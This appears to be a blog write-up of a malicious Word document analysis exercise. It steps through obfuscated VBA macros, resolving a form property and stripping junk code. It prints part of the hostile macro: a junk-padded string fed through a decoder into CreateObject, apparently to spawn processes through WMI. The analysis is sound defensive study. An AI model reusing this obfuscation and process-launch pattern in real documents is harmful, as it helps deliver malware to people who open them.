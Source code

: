 The first line of the `boaxvoebxiotqueb` shows:

```vba
gooykadheoj = Chr(roubhaol.Zoom + Int(5 * 3))
```

What's `roubhaol`? Since this is the first line in the function, I know that it is not a locally defined variable. It must be declared somplace else.

After looking around I learned that `roubhaol` is a the name of the user form at stream *16*.

```console
16: m    1187 'Macros/VBA/roubhaol'
```

So the next step is figuring out what `roubhaol.Zoom`'s value is. This value is not set anywhere in any of the macros by code. This means that the value is set in the form itself. To confirm, I opened up the Word document, pressed `Alt+F11` to open up the Visual Basic editor and then opened the `roubhaol` form. At the bottom we see that the value of `Zoom` is set to `100`.

![maldoc101-writeup-01]({attach}/images/maldoc101-writeup-01.png)

This means that by simulating the first line of code again we find that the variable `gooykadheoj` gets the character value of `s`.

```vba
gooykadheoj = Chr(roubhaol.Zoom + Int(5 * 3))
gooykadheoj = Chr(100 + Int(5 * 3))
gooykadheoj = Chr(115)
gooykadheoj = Chr(115) # character "s"
```

I then proceeded to go through the next set of lines.

```vba
Dim c7�ATOQe2�j As Integer
c7�ATOQe2�j = 6
Do While c7�ATOQe2�j < 6 + 2
c7�ATOQe2�j = c7�ATOQe2�j + 5: DoEvents
Loop
```

This one is easier to simulate. `c7�ATOQe2�j` is assigend 6. And then there's a loop that adds `5` that eventually results to the value of `16`.

But wait, something is fishy here. The variable `c7�ATOQe2�j` is not found anywhere else after the block of code above. This tells us that this is just junk code that does not really do anything aside from waste an analyst's time! Sneaky sneaky.

To save me the time I proceeded to remove all junk code. I did this by going through each variables and seeing if they are used somewhere useful. If not, then they are safe to remove.

```vba
Attribute VB_Name = "govwiahtoozfaid"
Function boaxvoebxiotqueb()
	gooykadheoj = Chr(roubhaol.Zoom + Int(5 * 3))

	haothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fq" + gooykadheoj + "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" + roubhaol.joefwoefcheaw + "2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
	
	deulsaocthuul = juuvzouchmiopxeox(haothkoebtheil)

	Set tiajriokchaoy = CreateObject(deulsaocthuul)
	
	deaknaugthein = roubhaol.kaizseah.ControlTipText
```